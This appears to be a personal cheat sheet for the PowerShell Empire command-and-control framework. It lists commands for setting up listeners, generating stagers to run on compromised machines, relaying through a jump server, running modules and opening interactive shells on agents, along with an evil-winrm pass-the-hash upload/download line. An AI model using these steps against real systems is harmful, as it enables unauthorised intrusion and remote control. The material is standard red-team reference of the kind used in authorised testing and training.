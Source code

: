 # POWERSHELL EMPIRE C2 FRAMEWORK 

### Note: Thee is a GUI version named Starkiller

### Start server: sudo powershell-empire server

### Start client CLI: powershell-empire client

## LISTENERS

### Listeners in Empire are used to receive connections from stagers.  The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

#### Listener selection: uselistener LISTENER

#### Listener options: options, set OPTION VALUE, set Name NAME, set Host OUR_IP, set Port OUR_PORT

#### Launch listener: execute

#### Stop listener: kill LISTENER_NAME

#### Exit out of this menu: back, Main menu: main

## STAGERS

###  Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

### We can generate stagers in either Empire CLI or Starkiller. In most cases these will be given as script files to be uploaded to the target and executed. Empire gives us a huge range of options for creating and obfuscating stagers for AV evasion; however, we will not be going into a lot of detail about these here.

#### Stager generation: usestager (Include space to get a list of available stagers in a dropdown menu)

#### General purpose stager: multi/launcher

#### Specify stager: usestager multi/launcher

#### Stager options: options, set OPTION VALUE set Listener LISTENER_NAME, execute

## AGENTS

#### Agent setup: Copy and paste stager to a script (name of your choice) and then transfer it on to the machine. Or just copy/paste the entire script to compromised machine to connect to the C2 server.

#### Agent interaction: agents (See full list of available agents), interact AGENT_NAME then help (Check your options to execute on compromised machine)

#### Switch back to agents menu: back

#### Kill agent: kill AGENT_NAME

#### Rename agent: rename AGENT_NAME NEW_AGENT_NAME

## HOP LISTENERS

### Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine. As such, the hop listener in the listeners menu can be thought of as more of a placeholder -- a reference to be used when generating stagers.

#### Listener creation: uselistener http_hop

#### Hop Listener setup: set RedirectListener FIRST_LISTENER_NAME, set Host COMPROMISED_IP set Port PORT(Above 15000)

#### Execute

#### Generate stager for hop listener: use multi/launcher set Listener http_hop

#### Copy/paste payload to target's command line

## START JUMP SERVER

### Example:

#### mkdir /tmp/hop-EXAMPLE

#### cd /tmp/hop-EXAMPLE

#### Attacker: cd /tmp/http_hop && zip -r hop.zip

#### Transfer the zipped file to compromised machine
 
#### Compromised machine: unzip hop.zip

#### Compromised machine: Create a web server to host the payloads generated by the framework: php -S 0.0.0.0:PORT (Above 15000) &>/dev/null &

## MODULES

#### Module usage on an empire agent: usemodule /PATH/TO/MODULE

#### usemodule: Shows list of modules to be used on target

#### When we choose the module we want to use type: options

#### Configuration: set agent AGENT_NAME, execute

## INCLUDE EMPIRE SCRIPTS ON A REMOTE MACHINE

### Scripts location: /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/

#### evil-winrm -u Administrator -H HASH -i IP -s EMPIRE_DIR

#### download REMOTE_PATH LOCAL_PATH

#### upload LOCAL_PATH REMOTE_PATH

## INTERACTIVE SHELL

### The interactive shell was a new feature in Empire 4.0. It effectively allows you to access a traditional pseudo-command shell from within Starkiller or the Empire CLI Client. This can be used to execute PowerShell commands, as you would in a Powershell reverse shell.

#### shell: Access an interactive shell by typing it on an agent. CTRL+C to return rto shell menu.
